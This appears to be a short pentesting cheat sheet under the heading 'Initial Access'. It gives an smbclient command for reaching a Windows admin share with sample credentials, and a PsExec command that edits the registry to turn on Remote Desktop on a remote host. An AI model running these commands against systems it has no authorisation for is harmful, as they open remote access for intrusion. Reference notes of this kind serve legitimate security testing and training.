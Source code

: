 # Initial Access

## SMB
### smbclient
```bash
smbclient //192.168.1.69/c$ -U john Password123!
# NT_STATUS_ACCESS_DENIED may indicate the credentials are wrong or network access is restricted
```

## RDP
### Enable RDP Remotely
```bash
# enter the command below on one line 
PsExec.exe /accepteula \\192.168.1.69 \
  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" \
  /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
